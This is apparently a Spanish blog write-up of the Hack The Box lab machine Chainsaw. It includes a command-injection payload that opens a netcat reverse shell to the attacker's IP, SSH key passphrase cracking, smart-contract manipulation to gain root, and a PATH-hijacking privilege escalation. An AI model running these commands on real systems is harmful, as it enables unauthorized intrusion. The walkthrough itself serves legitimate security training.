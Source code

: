 ```yaml
---
layout: single
title: HTB-Chainsaw
excerpt: "WriteUp con metodología de la máquina Chainsaw."
date: 2021-12-15
classes: wide
header:
  icon: /assets/images/hackthebox.webp
  teaser_home_page: true
  teaser: /assets/images/WriteUps/Chainsaw.png
categories:
  - WriteUps
tags:
  - HTB

---
```



<center><img src='/assets/images/WriteUps/Chainsaw.png'></center>

IP -> 10.10.10.142

## Nmap
Utilizamos [nmap](/Nmap/) y obtenemos los siguientes resultados.

[Chainsaw Nmap Result](/assets/files/WriteUps/Chainsaw.txt)

## ftp
Entramos como el usuario **anonymous**. 

```bash
ftp> prompt off
ftp> mget *
```

> WeaponizedPing.jpeg
> WeaponizedPing.sol
> address.txt

Vemos unos archivo, al investigarlos ecnontramos un solc, contract, etherium, Solidity smart contract languaje, blockchain... Nos encontramos frente a un **Smart Contract**.
Un **Smart Contract**.

## 9010 (Smart Contract)
Vamos a conectarnos al puerto para ver si tiene algo que ver con el contrato.
```bash
pip3 install web3 ethereum eth
python3
```

```python
from web3 import Web3, eth
import json
address = 'OxC8F3Bff5c04B08553FBb8307e1598A55899b3E0C'
w3 = Web3(Web3.HTTPProvider('http://10.10.10.142:9810'))
w3
w3.eth.accounts # Nos lista direcciónes asi que los tiros van por aqui.
w3.eth.defaultAccount = w3.eth.accounts[0]
json_file = json.loads(open("WeaponizedPing.json", "r").read())
abi = json_file['abi']
contract = w3.eth.contract(address=address, abi=abi)
contract.functions.getDomain().call()
contract.functions.setDomain("10.10.14.10").transact() # Recibimos traza icmp, si suponemos que utliza ping, podemos tratar de ejecutar comandos a nivel de sistema.
contract.functions.setDomain("10.10.14.10; ping -c 3 10.10.14.10").transact() # Tenemos RCE
contract.functions.setDomain("10.10.14.10; nc -e /bin/bash 10.10.14.10 443").transact()
```

# User Pivoting

## OS
```bash
cd /home/administrator
cat chainsaw-emp.csv # Hace referencia a correo electrónicos
netstat -nat # No vemos ninún puerto relaccionado con correos abierto
cd maintain
cat gen.py # No tenemos credenciales y no parece muy útil
cd /home/administrator
ls -lha # Vemos un directorio llamado ipfs, lo buscamos y tiene que ver con compartir archivos
which ipfs # Buscamos en la web documentación para ver que podemos hacer
ipfs refs local # List local references
for i in $(ipfs refs local); do ipfs ls $i; done 2>/dev/null # Listamos información de algunas referencias, vemos claves públicas y otros archivos .eml que suponemos que son claves privadas
ipfs get <ref> # Descargamos la supuesta clave privada para bobby. Vemos una clave en base64 como petición web
```

## ssh
Al decodificar el base64 vemos que está cifrada con contraseña

### ssh2john.py
Con **ssh2john.py** sacamos un hash para crackear localmente

### john + rockyou
Rompemos el hash y obtenemos la contraseña

> User: bobby
> id_rsa
> jackychain

> user.txt

# PrivEsc
## OS
```bash
id
sudo -l
cd projects
ls -l # Vemos un archivo SUID y otro smart contract
cat ChainsawClub.sol # Vemos funciones, un usuario y una contraseña hasheada que buscamos en crackstation pero no la consigue.
netstat -nat # Vemos el puerto 63991 abierto localmente
```

## LPortForwarding
Hacemos un Local Port Forwarding con ssh
```bash
ssh -i id_rsa bobby@10.10.10.142 -L 63991:127.0.0.1:63991
```

Tranferimos los archivos del smart contract a nuestra máquina
## 63991 (Smart Contract)
Con python volvemos a sincronizarnos al smart conrtact.
```python
from web3 import web3, eth
address = 'Ox2096618d8fa76638f1d994c08b2e0D872C394d43'
w3 = Web3(Web3.HTTPProvider('http://127.0.0.1:63991'))
w3
w3.eth.accounts
w3.eth.defaultAccount = w3.eth.accounts[0]
json_file = json.loads(open("ChainsawClub.json", "r").read())
abi = json_file['abi']
contract = w3.eth.contract(abi=abi, address=address)
contract.functions.setUsername('creep33').transact()
# Para la contraseña tenemos que pasarla a md5 primero
import hashlib
hashlib.md5('Mario123'.encode()).hexdigest()
contract.functions.setPassword('305b3a99e93d7aee24ee4b21e84308ed').transact()
```

Probamos a iniciar sesión en el binario, ahora nos deja pero "no estamos aprovados". Miramos más funciones que tenga el smart contract, hay un get/setApprove()
```python
contract.functions.setApprove(True).transact()
```

Ahora no tenemos dinero, vamos a ver funciones, getBalance, transfer
```python
contract.functions.transfer(1000).transact()
contract.funcitons.getBalance().call()
```

Al iniciar sesión somos root.

# PrivEsc (Altway)
## OS
```bash
strings ChainsawClub
```

Vemos que ejecuta un archivo que se encuentra en la ruta de /root, pero utiliza sudo de forma relativa.

## Path Hijacking
```bash
cd /tmp
echo "bash -p" > sudo
export PATH=/tmp:$PATH
./ChainsawClub
```

Y seríamos root

# root.txt
Al intentar abrir el root.txt nos dice:

> Mine deeper to get rearded with root coin (RTC)...

Buscamos en san-google "hidding data with files" y en la última referencia de la seguna página encontramos como hacerlo.
Con **bmap** podemos utilizar la memoria reservada pero no utilizada para un archivo.

```bash
bmap --mode slack root.txt
```

> root.txt
